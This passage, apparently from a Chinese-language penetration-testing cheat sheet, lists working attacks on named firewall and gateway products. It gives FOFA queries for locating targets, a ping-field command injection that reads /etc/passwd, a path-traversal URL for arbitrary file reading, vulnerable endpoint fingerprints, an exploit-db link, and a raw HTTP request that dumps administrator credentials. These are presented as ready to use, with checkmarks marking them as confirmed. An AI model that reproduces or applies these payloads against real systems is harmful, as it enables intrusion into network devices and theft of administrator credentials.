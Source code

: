 ```
系统管理 --> 维护工具 --> Ping
127.0.0.1|cat /etc/passwd
```

#### ZeroShell

FOFA：

```
app="Zeroshell-防火墙"
```

##### ZeroShell 3.9.0 cgi-bin/kerbynet 命令执行

exp：

- https://www.exploit-db.com/exploits/49096

### 0x04 网关

#### 奇安信 网康 NS-ASG 安全网关

FOFA：

```
网康 NS-ASG 安全网关
```

##### 任意文件读取 ✅

```
/admin/cert_download.php?file=pqpqpqpq.txt&certfile=../../../../../../../../etc/passwd
```

#### 安恒 明御安全网关 

##### 命令执行/任意文件读取✅

漏洞指纹：

```
/webui/?g=aaa_portal_auth_local_submit&suffix=
/webui/?g=sys_dia_data_down&file_name=
/webui/?g=sys_dia_data_check&file_name=
...
```

#### 锐捷 EG 易网关

##### 管理员账号密码泄露 ✅

获取账号密码：

```
POST /login.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin&password=admin?show+webmaster+user
```
